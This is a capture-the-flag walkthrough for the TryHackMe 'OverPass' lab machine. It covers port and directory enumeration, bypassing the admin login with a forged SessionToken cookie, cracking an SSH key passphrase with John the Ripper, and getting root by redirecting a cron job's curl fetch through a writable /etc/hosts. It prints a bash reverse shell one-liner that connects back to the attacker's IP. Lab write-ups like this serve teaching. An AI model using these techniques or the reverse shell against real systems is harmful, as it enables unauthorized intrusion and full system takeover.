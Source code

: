 # TryHackMe-OverPass Machine
----------------------------------------------------------------------
## Methodology:
1- Enumeration & Scanning
2- Enumerating HTTP
3- Privilege Escalation
----------------------------------------------------------------------
## 1- Start With Enumeration
#### Scanning the target Machine Using Nmap ==>> `nmap -sC -sV [Target IP]`
```
root@mahmoud:~# nmap -sC -sV 10.10.48.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-23 19:12 EET
Nmap scan report for 10.10.48.101
Host is up (0.66s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.01 seconds

```
### So Here W found out there Two open ports:
### 1- SSH 22 OpenSSH
### 2- HTTP 80 Golang net/http server
-------------------------------------------------------------------
## Enumerating HTTP
#### Then Let's Brute Force to searching the files on the web server
#### using command ` gobuster dir -u http://10.10.48.101 -w ~/Lists/gobuster/Gobuster-Dir-Medium.txt -t 30`
### The Result:
```
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
```
-------------------------------------------------------------------

## Let's Open /admin Directory
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM3.png)
### I have tried the popular credentials... but it's incorrect credentials
### I have opened inspect element to check if there's a js file and i found that there's a 3 js files in debugger
### the login.js is vulnerable...
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Nax/blob/main/img/THM2.png)
### it says that if the response of the authentication request is not “Incorrect Credentials” if the authentication was successful, it then sets the SessionToken to “statusOrCookie”:
### so let's add `cookie: SessionToken=statusOrCookie`
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM4.png)
### The Result:
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM5.png)
#### Let's save this ssh key to file like `key` and now we have the username is `james`
#### move forward to using the SSH2John tool to extract the hash from the key
#### First: `root@mahmoud:~# /usr/share/john/ssh2john.py key > hash` ==> I Extract The Hash From key File so i got a "hash" file
#### Second: `root@mahmoud:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash` ==> Now i got the key: james13
#### Note: this is just a key we will login with it via SSH it's not the james password
#### Now we can log in as james via SSH using the private SSH key and the cracked password. ==> `root@mahmoud:~# ssh -i key james@10.10.48.101`
#### after you logged in you will find user.txt it's your first flag :))
----------------------------------------------------------------------------------
## Privilege Escalation
#### 1. Transferring LinPeas using the Python Simple HTTP Server and Wget:
#### 2. Running LinPeas file you transferred to enumerate the machine:==> It means there is a cron job running as root which executes Curl against overpass.thm/dwnloads/src/buildscript.sh
#### 3. overpass.thm is a points at localhost also the /etc/hosts file can be modified by all users so Replacing the overpass.thm entry in /etc/hosts with the local Kali machine’s IP address from 127.0.0.1 to (Kali machine's IP)
#### 4. Creating a Bash script to reverse shell and connect back to the Kali host
#### The Script Code:
```
bash -i >& /dev/tcp/[Your Kali IP]/[PORT] 0>&1

```
#### 5. Then i will Transferring the reverse shell file "buildscript.sh" to the Target Machine
#### 6. let's open the listener by ncat ==> `nact -lnvp [PORT]`
#### 7. the final step run linPeas file again to execute the reverse shell file "buildscript"
#### 8. You will get a root shell to the machine and the second flag in root.txt
-------------------------------------------------------------------------------------------------------
Happy Hack :))
